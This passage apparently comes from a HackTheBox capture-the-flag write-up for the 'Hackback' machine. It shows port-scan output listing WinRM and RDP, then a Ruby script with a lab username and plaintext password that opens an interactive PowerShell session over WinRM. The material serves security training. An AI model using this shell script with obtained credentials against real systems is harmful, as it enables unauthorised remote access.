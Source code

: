 ```
5985/tcp open   wsman
5986/tcp closed wsmans
8080/tcp open   http-proxy
```

There's a few additional ports open like WinRM and RDP. I can't RDP in because I don't have the proper privileges:

![](/assets/images/htb-writeup-hackback/rdpfail_simple.png)

To connect to WinRM running on port 5985 I used the [Alamot's ruby script](https://github.com/Alamot/code-snippets/tree/master/winrm). I edited it to put the credentials and the right endpoint.

```ruby
#!/usr/bin/ruby

require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'http://127.0.0.1:5985/wsman',
  user: 'hackback\simple',
  password: 'ZonoProprioZomaro:-(',
  :no_ssl_peer_verification => true
                            )

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```
